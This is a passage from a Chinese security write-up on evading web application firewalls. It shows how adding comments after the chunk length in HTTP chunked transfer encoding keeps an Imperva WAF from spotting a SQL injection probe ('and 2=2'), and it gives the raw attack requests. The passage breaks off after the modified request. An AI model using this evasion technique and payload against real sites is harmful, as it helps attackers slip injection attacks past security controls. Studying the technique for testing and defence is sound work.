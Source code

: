 ```java
   be removed or recoded by each recipient (including intermediaries)
   before any higher-level application would have a chance to inspect
   the extensions.  Hence, use of chunk extensions is generally limited
```

通过阅读规范发现分块传输可以在长度标识处加上分号“;”作为注释，如：

```text
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

几乎所有可以识别Transfer-Encoding数据包的WAF，都没有处理分块数据包中长度标识处的注释，导致在分块数据包中加入注释的话，WAF就识别不出这个数据包了。

现在我们在使用了Imperva应用防火墙的网站测试常规的分块传输数据包：

```text
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1
d
9
&a=1	and	
3
2=2
0
（两个换行）
```

返回的结果如下图所示。

![](https://p0.ssl.qhimg.com/dm/1024_509_/t01e68aae3729de0934.png)

可以看到我们的攻击payload “and 2=2”被Imperva的WAF拦截了。

这时我们将分块传输数据包加入注释符。

```text
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1;testsdasdsad
d
9;test
&a=1	and	
3;test44444
2=2
0
(两个换行)
```